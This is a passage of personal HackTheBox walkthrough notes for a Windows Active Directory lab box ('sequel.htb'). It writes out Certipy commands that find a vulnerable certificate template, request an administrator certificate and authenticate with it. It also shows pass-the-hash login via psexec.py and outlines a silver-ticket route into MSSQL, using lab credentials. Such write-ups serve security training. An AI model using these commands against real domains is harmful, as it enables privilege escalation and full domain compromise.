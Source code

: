 Get NTLM hash and login

Test creds using cme
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526221604.png]]
#### Login using psexec.py with Admin's NTLM Hash

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526221650.png]]
⭐got root⭐

-----
## Alternate Attaccs

### Use Certipy instead of Certify.exe

#### Find vulnerable certificate
```
certipy find -u ryan.cooper -p P@ssw0rd! -target sequel.htb -text -stdout -vulnerable
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526233816.png]]
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526233557.png]]

#### Request Certificate
```
certipy req -u ryan.cooper -p P@ssw0rd! -target sequel.htb -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication
```
- outputs administrator.pfx (certificate and private key)

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526234204.png]]

Ensure local time is synced with server time 

```
sudo ntpdate 10.10.11.202
```

#### Request TGT Using Administrator.pfx

```
certipy auth -pfx administrator.pfx
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526234512.png]]
- also get NT Hash for administrator

-----------------
### Root via Silver Tickets and MSSQL

1. Obtain the SQL_SVC password -> `REGGIE1234ronnie`
2. Generate an NTLM hash from this plain text password (so the server can understand it)
3. Get the domain SID
4. Use ticketer.py to generate silver ticket & log into MSSQL as admin
